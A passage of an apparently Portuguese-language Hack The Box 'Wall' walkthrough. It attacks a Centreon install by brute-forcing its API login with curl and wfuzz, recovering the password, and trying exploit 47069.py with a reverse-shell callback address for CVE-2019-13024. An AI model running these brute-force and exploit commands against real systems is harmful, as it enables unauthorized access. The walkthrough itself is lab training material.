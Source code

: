 Sabemos também que um BruteForce direto ai não da certo, temos que olhar a API dele, pra ver como ele faz a autenticação direta com a aplicação. Ou seja, como a aplicação faz a autenticação, não o usuário. Possivelmente a aplicação não usa CSRF pra fazer a autenticação com ela mesma

Verificando na documentação do Centreon, encontramos isso

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_api.png)

O que quer dizer? Que se enviamos um POST para 'api.domain.tld/centreon/api/index.php?action=authenticate' com os parâmetros 'username' e 'password' conseguimos possivel autenticação... E o melhor, sem o bendito CSRF token!

Vamos tentar então. Para isso vamos utilizar o curl

> curl 10.10.10.157/centreon/api/index.php?action=authenticate -d 'username=admin&password=test'

Pronto! Deu certo, agora ficou fácil de fazer BruteForce com qualquer aplicação pra isso

Mas vamos testar no BurpSuite também para confirmar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_aut.png)

Sim, é isso mesmo... vamos tentar um BruteForce agora com o Wfuzz

> wfuzz -c -u http://10.10.10.157/centreon/api/index.php?action=authenticate -d 'username=admin&password=FUZZ' -w /usr/share/wordlists/dirb/others/best110.txt --hc 403

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_brut.png)

Pronto, de novo, a senha é password1

Agora podemos prosseguir com a exploração

# Exploração Centreon

Bom, agora temos credenciais e podemos usar aquele exploit que foi utilizado pra descobrir a senha pra pegar um shell na máquina, não? É, quase isso, vamos tentar

> python 47069.py http://10.10.10.157/centreon/ admin password1 10.10.16.92 443

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_exp.png)

Puts, não deu certo... não vou ficar quebrando a cabeça por hora aqui, depois qnd pegar o root da máquina voltamos e vemos o que deu errado pra tentar corrigir

Então, vamos voltar a fase de pesquisa por exploits

O link que utilizei como base para essa explanação foi esse:

> https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-wall/W_c.png)

Nota: a vulnerabilidade se encontra no campo Conifgure Pollers > Monitoring Engine Binary, que permite a execução de códigos

## Ganhando RCE
